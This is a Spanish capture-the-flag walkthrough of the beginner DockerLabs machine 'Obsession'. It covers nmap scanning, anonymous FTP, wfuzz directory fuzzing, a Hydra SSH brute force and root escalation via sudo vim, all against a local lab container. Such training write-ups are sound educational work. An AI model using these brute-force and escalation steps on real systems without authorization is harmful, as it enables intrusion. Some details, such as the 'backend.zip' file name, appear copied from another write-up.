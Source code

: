 # 🖥️ **Máquina: Obsession**

- **🔹 Dificultad:** Muy Fácil  
- **📌 Descripción:**  
  Laboratorio para principiantes en ciberseguridad. Se trabaja principalmente con servicios **SSH** y **FTP**.

- **🎯 Objetivo:**  
  -Enumerar y explotar acceso anónimo en FTP para obtener información sensible.
  -Identificar directorios ocultos en el servidor web.
  -Realizar un ataque de fuerza bruta contra SSH para obtener acceso al sistema.
  -Escalar privilegios a root mediante una mala configuración de sudo con vim.
  
![Máquina Backend](/Obsession/Imagenes/Plantilla.png)

---

## 🚀 **Despliegue de la Máquina Obsession en DockerLabs**

### 1️⃣ Descargar y descomprimir el archivo  
Primero, descargamos y extraemos el archivo `.zip`. Utilizamos `7z` para este propósito:

```bash
7z e backend.zip
```

### 2️⃣ Ejecutar el despliegue automático  
Después de descomprimir, lanzamos la máquina con el siguiente script:

```bash
bash auto_deploy.sh obsession.tar
```

📌 **Nota:** Asegúrate de tener `7z` instalado y contar con un entorno con Docker correctamente configurado.

![Máquina Iniciada](/Obsession/Imagenes/Despliegue.jpeg)

### 3️⃣ Comprobar la conexión  
Verificamos que la máquina esté activa enviando paquetes de ping:

```bash
ping -c4 172.17.0.2
```

![PING](/Obsession/Imagenes/Ping.jpeg)

---

## 🧩 **Fase de Reconocimiento**

Iniciamos un escaneo de puertos con **nmap**:

```bash
nmap -p- --open -sS --min-rate 500 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

![Reconocimiento](/Obsession/Imagenes/Puertos.jpeg)

📌 **Tip:** Puedes usar herramientas personalizadas como `extractPorts` para filtrar los puertos abiertos:

```bash
extractPorts allPorts.txt
```

Realizamos un escaneo más específico sobre los puertos detectados (22 y 80):

```bash
nmap -p22,80 -sCV 172.17.0.2 -oN target
```

![Reconocimiento](/Obsession/Imagenes/Servicios.jpeg)

**Hallazgos iniciales:**
- **Puerto 22 (SSH):** Acceso remoto al sistema operativo.
- **Puerto 80 (HTTP):** Página web activa.
- **FTP:** El servicio permite acceso anónimo.

---

## 🌐 **Accediendo al servidor web**

Para acceder correctamente a la página web, debemos modificar el archivo `hosts`:

```bash
sudo nano /etc/hosts
```
Añadimos:

```plaintext
172.17.0.2    nombre-del-sitio.local
```

Esto nos permitirá visitar `http://nombre-del-sitio.local` en nuestro navegador.

![Pagina](/Backend/Images/etchost.jpeg)

Recopilamos información básica del sitio usando **WhatWeb**:

```bash
whatweb 172.17.0.2
```

---

## 📂 **Acceso al servicio FTP**

Ya que el acceso anónimo está habilitado, nos conectamos al servidor FTP:

```bash
ftp 172.17.0.2
```

![Reconocimiento](/Obsession/Imagenes/FTP.jpeg)

Dentro del servicio, encontramos dos archivos:

- `pendientes.txt`
- `chat-gonza.txt`

Los descargamos con:

```bash
get pendientes.txt /home/alejandro/Descargas/pendientes.txt
get chat-gonza.txt /home/alejandro/Descargas/chat-gonza.txt
```

![FTP_descargas](/Obsession/Imagenes/FTP_descargas.jpeg)

Leemos su contenido:

```bash
cat pendientes.txt
cat chat-gonza.txt
```

![cat](/Obsession/Imagenes/Lectura.jpeg)

**Observaciones:**  
Los archivos contienen conversaciones internas. Aunque mencionan asuntos legales, nuestro enfoque es identificar potenciales vulnerabilidades; uno de los archivos sugiere cambios pendientes en la página web, lo que podría indicar fallos en desarrollo.

---

## 🔎 **Búsqueda de Directorios Ocultos**

Al navegar inicialmente por la página no encontramos contenido útil, por lo que iniciamos un escaneo de directorios con **wfuzz**:

```bash
wfuzz -c -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc 404 http://172.17.0.2/FUZZ
```

📎 **Nota:** Si no tienes instalada la lista **Seclists**, puedes descargarla con:

```bash
git clone https://github.com/danielmiessler/SecLists.git /usr/share/seclists
```

![Pagina](/Obsession/Imagenes/wfuzz.jpeg)

**Resultados:**
- **/important:** Directorio con un manifiesto personal.
- **/backup:** Directorio que revela un posible nombre de usuario.

![evidencia](/Obsession/Imagenes/important.jpeg)
![evidencia](/Obsession/Imagenes/Contenido_importan.jpeg)
![evidencia](/Obsession/Imagenes/backup.jpeg)
![evidencia](/Obsession/Imagenes/Contenido_backup.jpeg)

---

## 🔐 **Ataque de Fuerza Bruta al servicio SSH**

Con el nombre de usuario descubierto, utilizamos **Hydra** para encontrar su contraseña:

```bash
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 50
```

![Hydra](/Obsession/Imagenes/Hydrassh.jpeg)

Tras obtener las credenciales, iniciamos sesión:

```bash
ssh russoski@172.17.0.2
```

![Entrar](/Obsession/Imagenes/Entrar.jpeg)

---

## 🛡️ **Escalada de Privilegios**

Dentro de la máquina, verificamos los permisos **sudo**:

```bash
sudo -l
```

Descubrimos que el usuario puede ejecutar **vim** como `sudo` sin contraseña.

**¿Por qué es importante?**  
**Vim** permite ejecutar comandos de sistema desde su entorno. Esto significa que podemos invocar una shell como root directamente desde Vim.

📌 Consultando la base de datos [GTFOBins](https://gtfobins.github.io/gtfobins/vim/), encontramos que para escalar privilegios usando Vim, el comando es:

```bash
sudo vim -c ':!/bin/bash'
```

Esto abrirá un **shell interactivo como root**.

![Entrar](/Obsession/Imagenes/Resultado.jpeg)

---

# ✅ **Resumen del proceso:**

1. Escaneamos puertos y descubrimos servicios SSH, HTTP y FTP.
2. Accedimos vía FTP y descargamos archivos que revelaron información sensible.
3. Identificamos directorios ocultos en la página web.
4. Realizamos un ataque de fuerza bruta sobre SSH y accedimos al sistema.
5. Escalamos privilegios mediante una mala configuración de **sudo** sobre **vim**.
